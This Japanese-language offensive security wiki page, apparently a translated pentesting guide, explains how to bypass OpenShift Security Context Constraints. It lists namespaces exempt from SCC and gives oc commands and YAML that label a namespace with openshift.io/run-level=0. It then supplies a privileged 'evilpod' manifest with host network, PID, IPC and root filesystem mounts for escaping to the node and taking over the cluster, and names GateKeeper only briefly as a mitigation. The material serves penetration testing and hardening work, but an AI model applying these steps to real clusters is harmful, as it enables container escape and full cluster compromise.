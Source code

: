 # Openshift - SCC bypass

**このページの元の著者は** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特権名前空間

デフォルトでは、SCCは以下のプロジェクトには適用されません：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

これらの名前空間のいずれかにポッドをデプロイすると、SCCは強制されず、特権ポッドのデプロイやホストファイルシステムのマウントが可能になります。

## 名前空間ラベル

RedHatのドキュメントによると、ポッドに対するSCCの適用を無効にする方法があります。以下のいずれかの権限を持っている必要があります：

- 名前空間を作成し、この名前空間にポッドを作成する
- 名前空間を編集し、この名前空間にポッドを作成する
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定のラベル `openshift.io/run-level` は、アプリケーションのためにユーザーがSCCを回避することを可能にします。RedHatのドキュメントによると、このラベルが使用されると、その名前空間内のすべてのポッドに対してSCCが適用されず、実質的に制限が取り除かれます。

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## ラベルを追加する

あなたの名前空間にラベルを追加するには：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAMLファイルを通じてラベルを持つ名前空間を作成するには：
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
現在、名前空間で作成されたすべての新しいポッドには、SCCがありません。

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCCがない場合、ポッド定義に制限はありません。これは、悪意のあるポッドがホストシステムに逃げるために簡単に作成できることを意味します。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
今では、ホストシステムへの特権昇格が容易になり、その結果、クラスタ全体を掌握し、「cluster-admin」特権を取得することができます。次のページで**Node-Post Exploitation**部分を探してください：

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### カスタムラベル

さらに、ターゲットのセットアップに基づいて、前の攻撃シナリオと同様に、いくつかのカスタムラベル/アノテーションが使用される場合があります。作成されていなくても、ラベルは特定のリソースに対して権限を与えたり、制限したりするために使用される可能性があります。

リソースをいくつか読むことができる場合は、カスタムラベルを探してみてください。以下は興味深いリソースのリストです：

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 特権のあるすべての名前空間をリストする
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

OpenShiftでは、前述のように、`openshift.io/run-level`ラベルを持つ名前空間にポッドをデプロイする権限があると、クラスターの簡単な乗っ取りにつながる可能性があります。クラスター設定の観点から、この機能は**無効にできません**。これはOpenShiftの設計に固有のものです。

しかし、**Open Policy Agent GateKeeper**のような緩和策は、ユーザーがこのラベルを設定するのを防ぐことができます。

GateKeeperのルールを回避し、このラベルを設定してクラスターの乗っ取りを実行するには、**攻撃者は代替手段を特定する必要があります。**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
